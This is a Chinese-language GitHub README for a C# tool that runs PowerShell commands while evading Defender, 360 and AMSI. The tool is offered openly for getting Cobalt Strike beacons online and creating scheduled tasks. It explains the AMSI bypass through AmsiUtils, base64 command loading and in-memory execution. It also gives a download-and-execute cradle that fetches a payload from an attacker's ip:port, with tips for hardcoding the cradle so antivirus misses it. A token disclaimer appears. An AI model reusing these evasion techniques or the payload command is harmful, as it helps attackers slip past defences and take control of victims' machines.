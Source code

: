 # powershell-bypss

powershell命令免杀的小工具，可过Defender、360等，可执行上线cobaltstrike、添加计划任务等。

AMSI绕过+Automation执行powershell命令。

理论上来说遇到禁用powershell的情况也可以通过该工具执行powershell的命令。

**请勿使用于任何非法用途，由此产生的后果自行承担。**

**理论上来说可以免杀执行任意powershell命令，但是调用了如schtask这类被监控的程序还是会被查杀的。**

上述测试环境均为实体机。

思路很简单，很久之前就有了，工具调用C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation目录下面的System.Management.Automation.dll执行底层api来绕过杀软对powershell的监控，同时绕过AMSI的检测。由于patch绕过AMSI的方法会被360查杀，因此这里使用了设置System.Management.Automation.AmsiUtils的方法来绕过。

这里用对命令进行了base64编码，当然这就是一个命令的加载器，具体怎么加密命令有各种各样的方法。

由于是C#，因此可以用execute-assembly内存执行的方式来不落地执行，不过cs本身的powerpick就实现了这个功能，这里只是单拿出来做一个小工具。

**师傅们注意避免用powershell命令，上线cobaltstrike只需要base64```IEX ((new-object net.webclient).downloadstring('http://ip:port/a'))```裸命令，如果以powershell开头那么还是会调用powershell被360拦截的。**

**想单纯来上线cs的师傅可以把IEX开头的powershell命令写定在程序里的myPipeLine.Commands.AddScript参数中**





